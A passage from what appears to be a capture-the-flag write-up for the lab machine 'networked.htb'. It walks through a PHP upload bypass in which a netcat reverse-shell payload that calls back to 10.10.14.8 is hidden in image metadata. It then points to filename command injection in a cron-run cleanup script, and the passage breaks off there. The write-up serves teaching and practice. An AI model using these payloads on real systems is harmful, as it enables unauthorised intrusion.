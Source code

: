 Extract and analyze the `backup.tar` file:

```bash
tar -xf backup.tar
cat upload.php
```

The `upload.php` source code reveals a file upload function that:
- Allows files with extensions `.jpg`, `.png`, `.gif`, or `.jpeg`.
- Checks file size (< 60,000 bytes).
- Renames uploaded files to `<client_ip>.<extension>`.

## 2. Exploitation

The upload functionality is vulnerable to bypassing extension checks by embedding PHP code in an image file’s metadata. Use `exiftool` to inject a reverse shell payload into a valid image:

```bash
exiftool -DocumentName='<?php system("nc 10.10.14.8 4343 -e /bin/sh"); ?>' shell.jpg
mv shell.jpg shell.php.jpg
```

Start a Netcat listener:

```bash
nc -lvnp 4343
```

Upload `shell.php.jpg` via `http://networked.htb/upload.php`. Access `http://networked.htb/photos.php` to trigger the payload.

**Result:** A reverse shell is established as the `apache` user.

## 3. Post-Exploitation

Explore the system to identify privilege escalation opportunities:

```bash
whoami
# Output: apache
ls -la /home
```

**Findings:**

- A user `guly` exists with a home directory at `/home/guly`.
- A cron job runs `/home/guly/check_attack.php` every 3 minutes.

Inspect the `check_attack.php` script:

```bash
cat /home/guly/check_attack.php
```

The script scans the `/var/www/html/uploads/` directory and executes `rm -f` on files without proper sanitization, making it vulnerable to command injection via a crafted filename.

Create a malicious file in `/var/www/html/uploads/` to exploit this vulnerability:
